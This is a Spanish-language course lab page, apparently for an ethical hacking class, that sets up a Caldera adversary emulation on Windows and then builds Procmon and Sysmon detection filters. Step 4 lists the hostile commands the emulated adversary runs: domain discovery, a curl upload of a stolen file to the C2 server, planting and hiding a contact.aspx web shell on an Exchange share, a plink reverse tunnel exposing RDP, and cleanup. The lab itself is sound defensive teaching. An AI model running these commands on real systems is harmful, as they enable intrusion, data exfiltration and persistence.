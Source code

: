 ```yaml
---
title: Clase 11 - Caldera && Promon/Sysmon (Parte 3)
date: 2024-12-05 00:20:00 -0500
categories: [Cybersecurity,Ethical Hacking,Pentesting,Exploitation Techniques]
tags: [Examen Parcial, evaluation]     # TAG names should always be lowercase
---
```


<!-- <hr style="border: none; height: 10px; background-color: #003b00;" />

# <font color="#87CEEB">Examen Parcial.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" /> -->

## Lab Setup

![alt text](/assets/images/caldera-setup.png)

## Pasos

1. Desde el Kali Linux, inicie el servidor Caldera
2. Desde la máquina de Windows, gestionar Caldera. En el `browser`, ingresar a la siguiente dirección:
    ```
    http:/<IP del Kali Linux>:8888
    ```
3. Desplegar un `Agente de Caldera` en la Máquina de Windows. De ser necesario, desactivar el Firewall de Windows.
4. Crear un Adversario de Prueba. Configurar el Adversario con un Skill (Se revisa en clase). Documentación [Link](https://github.com/center-for-threat-informed-defense/adversary_emulation_library)

    ```bash
    cscript /nologo computername.vbs
    cscript /nologo username.vbs
    whoami
    hostname
    ipconfig /all
    net user /domain
    net group /domain
    net group "domain admins" /domain
    net group "Exchange Trusted Subsystem" /domain
    net accounts /domain
    net user
    net localgroup administrators
    netstat -na
    tasklist
    sc query
    systeminfo
    reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"
    net user #{initial.target.user} /domain
    net group "SQL Admins" /domain
    nslookup #{second.target.host}
    C:\Users\#{initial.target.user}\AppData\local\SystemFailureReporter\b.exe
    curl -F "data=@C:\Users\#{initial.target.user}\AppData\Roaming\fsociety.dat" --header "X-Request-ID: #{initial.target.user}-#{paw}" #{server}/file/upload
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\contact.aspx C:\Users\Public\contact.aspx
    copy C:\Users\Public\contact.aspx "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"
    attrib +h "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.exe
    exec-background C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw "#{caldera.user.password}" #{caldera.server.ip}
    del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe;
    curl -s -H "KEY:#{server.api.key}" -H "Content-Type: application/json" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d "{\"watchdog\":1}"
    ```

5. Crear una Operación de Prueba usando el adversario recientemente creado.
6. Ejecutar la operación.
7. Analizar en Procmon (Python?).
    - Resultado de ejecutar `cscript /nologo computer.vbs`
    ```bash
    ['Process Start' 'Thread Create' 'QueryNetworkOpenInformationFile'
    'QueryIdInformation' 'FileSystemControl' 'QueryNameInformationFile'
    'Load Image' 'CreateFile' 'QueryStandardInformationFile' 'ReadFile'
    'CloseFile' 'RegOpenKey' 'RegQueryValue' 'RegCloseKey'
    'QueryBasicInformationFile' 'CreateFileMapping' 'RegQueryKey'
    'RegSetInfoKey' 'RegCreateKey' 'RegEnumKey' 'RegEnumValue'
    'DeviceIoControl' 'QueryDirectory' 'Thread Exit' 'Process Exit']
    ```

8. Crear y activar el respectivo filtro en Sysmon.

    ```bash
    <Sysmon schemaversion="4.90">
    <EventFiltering>
        
        <!-- Process Creation -->
        <ProcessCreate onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessCreate>
        
        <!-- Process Termination -->
        <ProcessTerminate onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessTerminate>
        
        <!-- Network Connection -->
        <NetworkConnect onmatch="include">
        <Image condition="contains">cscript</Image>
        </NetworkConnect>

        <!-- Thread Creation -->
        <CreateRemoteThread onmatch="include">
        <SourceImage condition="contains">cscript</SourceImage>
        </CreateRemoteThread>

        <!-- Image Load -->
        <ImageLoad onmatch="include">
        <Image condition="contains">cscript</Image>
        </ImageLoad>

        <!-- Registry Events -->
        <RegistryEvent onmatch="include">
        <Image condition="contains">cscript</Image>
        </RegistryEvent>

        <!-- File Creation -->
        <FileCreate onmatch="include">
        <Image condition="contains">cscript</Image>
        </FileCreate>

        <!-- Process Access -->
        <ProcessAccess onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessAccess>

    </EventFiltering>
    </Sysmon>
    ```

9. Realizar una nueva operación.
10. Comprobar que Sysmon está filtrando los eventos deseados. Discutiremos problemas encontrados.
11. Analizar los eventos en Procmon y en Sysmon (Event Viewer).
12. Python Coding (Jupyter Notebooks).